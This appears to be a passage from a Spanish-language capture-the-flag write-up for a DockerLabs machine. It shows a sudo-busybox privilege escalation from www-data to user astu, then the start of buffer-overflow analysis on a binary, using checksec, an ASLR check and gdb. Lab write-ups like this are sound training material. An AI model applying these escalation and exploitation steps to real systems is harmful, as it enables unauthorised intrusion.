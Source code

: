 YA ESTAMOS COMO WWW-DATA.
# ESCALADA PRIVILEGIOS

Vamos a ver si tenemos permisos SUDO:

```bash
www-data@dockerlabs:/var/www/crosswords/web$ sudo -l
Matching Defaults entries for www-data on dockerlabs:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User www-data may run the following commands on dockerlabs:
    (astu : astu) NOPASSWD: /usr/bin/busybox


```

```bash
www-data@dockerlabs:/var/www/crosswords/web$ sudo -u astu busybox sh
```

YA ESTAMOS COMO ASTU.

Vemos un binario:
```bash
astu@dockerlabs:~/secure$ ./bs64 
Ingrese el texto: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
QUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQQ==
Segmentation fault

```

**Buffer Overflow**

```bash
checksec --file=vulnerable

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   32 Symbols        No    0               1               vulnerable

astu@dockerlabs:~/secure$ cat /proc/sys/kernel/randomize_va_space
2

```

La pila no es ejecutable y hay ASLR. Ademas, depurando el binario con gdb:

```bash
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401030  putchar@plt
0x0000000000401040  system@plt
0x0000000000401050  printf@plt
0x0000000000401060  getchar@plt
0x0000000000401070  setuid@plt
0x0000000000401080  _start
0x00000000004010b0  _dl_relocate_static_pie
0x0000000000401166  to_base64
0x0000000000401315  my_gets
```